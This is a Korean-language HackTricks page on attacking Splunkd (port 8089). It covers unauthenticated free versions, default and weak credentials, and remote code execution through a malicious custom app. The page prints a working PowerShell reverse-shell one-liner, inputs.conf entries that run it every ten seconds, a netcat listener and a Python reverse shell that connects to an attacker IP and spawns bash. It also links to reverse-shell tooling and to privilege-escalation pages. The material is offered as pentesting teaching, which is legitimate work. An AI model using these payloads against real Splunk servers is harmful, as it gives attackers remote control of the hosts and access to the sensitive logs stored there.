 # 8089 - Splunkd 펜테스팅

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹 배우기**</summary>

다른 방법으로 HackTricks를 지원하는 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하고 싶다면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 기여하세요.

</details>

## **기본 정보**

Splunk은 **로그 분석 도구**로, **데이터 수집, 분석 및 시각화**에 중요한 역할을 합니다. 초기 목적은 **SIEM (보안 정보 및 이벤트 관리)** 도구로 사용되지 않았지만, **보안 모니터링** 및 **비즈니스 분석** 분야에서 인기를 얻었습니다.

Splunk 배포는 종종 **민감한 데이터**를 저장하고 시스템을 침해하는 경우 잠재적인 공격자에게 **가치 있는 정보원**으로 작용할 수 있습니다. **기본 포트:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**스플렁크 웹 서버는 기본적으로 포트 8000에서 실행됩니다**.
{% endhint %}

## 열거

### 무료 버전

스플렁크 엔터프라이즈 평가판은 **60일 후에 무료 버전으로 전환**되며 **인증이 필요하지 않습니다**. 시스템 관리자가 스플렁크 평가판을 설치하여 테스트하는 것은 흔한 일이며, **그 후 잊혀지기 쉽습니다**. 이는 인증 형태가 없는 무료 버전으로 자동 전환되어 환경에 보안 허점을 도입합니다. 일부 조직은 예산 제약으로 인해 무료 버전을 선택할 수 있으며, 사용자/역할 관리가 없을 때의 영향을 완전히 이해하지 못할 수 있습니다.

### 기본 자격 증명

이전 버전의 스플렁크에서는 기본 자격 증명이 **`admin:changeme`**으로 설정되어 있으며, 로그인 페이지에 편리하게 표시됩니다.\
그러나 **최신 버전의 스플렁크**는 **설치 과정 중에 자격 증명을 설정**합니다. 기본 자격 증명이 작동하지 않는 경우 `admin`, `Welcome`, `Welcome1`, `Password123` 등과 같은 일반적인 약한 암호를 확인하는 것이 좋습니다.

### 정보 획득

스플렁크에 로그인하면 **데이터를 탐색**하고 **보고서를 실행**하며 **대시보드를 생성**하고, 스플렁크베이스 라이브러리에서 **응용 프로그램을 설치**하고 사용자 정의 응용 프로그램을 설치할 수 있습니다.\
또한 코드를 실행할 수 있습니다: 스플렁크에는 서버 측 Django 응용 프로그램, REST 엔드포인트, 스크립트 입력 및 경보 스크립트와 같이 **코드를 실행하는 여러 방법**이 있습니다. 스플렁크 서버에서 원격 코드 실행을 얻는 일반적인 방법은 스크립트 입력을 사용하는 것입니다.

또한, 스플렁크는 Windows 또는 Linux 호스트에 설치할 수 있으므로, 스크립트 입력을 만들어 Bash, PowerShell 또는 Batch 스크립트를 실행할 수 있습니다.

### Shodan

* `Splunk 빌드`

## RCE

### 사용자 정의 응용 프로그램 생성

사용자 정의 응용 프로그램은 **Python, Batch, Bash 또는 PowerShell 스크립트를 실행**할 수 있습니다.\
**스플렁크에는 Python이 설치되어 있으므로**, **Windows** 시스템에서도 Python 코드를 실행할 수 있습니다.

[**여기**](https://github.com/0xjpuff/reverse\_shell\_splunk)에서 이 Splunk 패키지를 사용하여 도움을 받을 수 있습니다. 이 리포지토리의 **`bin`** 디렉토리에는 [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) 및 [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1)에 대한 예제가 있습니다. 이를 단계별로 진행해 봅시다.

이를 달성하기 위해 먼저 다음 디렉토리 구조를 사용하여 사용자 정의 스플렁크 응용 프로그램을 만들어야 합니다:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** 디렉토리에는 실행할 **스크립트** (이 경우 **PowerShell** 역술 쉘)가 포함됩니다. 기본 디렉토리에는 `inputs.conf` 파일이 있을 것입니다. 우리의 역술 쉘은 **PowerShell 원 라이너**입니다:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
[inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) 파일은 Splunk에게 **어떤 스크립트를 실행할지**와 다른 조건을 알려줍니다. 여기서 우리는 앱을 활성화하고 Splunk에게 10초마다 스크립트를 실행하도록 지시합니다. 간격은 항상 초 단위이며, 이 설정이 있을 때만 입력(스크립트)이 실행됩니다.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
우리는 응용 프로그램이 배포될 때 실행되고 PowerShell 원 라이너를 실행할 `.bat` 파일이 필요합니다.

다음 단계는 `파일에서 앱 설치`를 선택하고 응용 프로그램을 업로드하는 것입니다.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

악의적인 사용자 정의 앱을 업로드하기 전에 Netcat이나 [socat](https://linux.die.net/man/1/socat)을 사용하여 리스너를 시작합시다.
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
### `Upload app` 페이지에서 브라우즈를 클릭하고, 이전에 생성한 tarball을 선택한 후 `Upload`를 클릭합니다. **애플리케이션을 업로드하는 즉시**, 애플리케이션의 상태가 자동으로 `Enabled`로 전환되면서 **리버스 쉘이 수신됩니다**.

#### 리눅스

만약 **리눅스 호스트**와 작업 중이라면, 사용자 정의 악의적 앱을 만들기 전에 **`rev.py` 파이썬 스크립트를 편집**해야 합니다. 나머지 과정은 동일하며, Netcat 수신기에서 리버스 쉘 연결을 받아들이고 작업을 시작할 수 있습니다.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

다음 페이지에서는이 서비스가 어떻게 남용되어 권한 상승 및 지속성 획득에 이용될 수 있는지에 대한 설명을 찾을 수 있습니다:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>제로부터 영웅이 될 때까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF 형식의 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유하세요.**

</details>
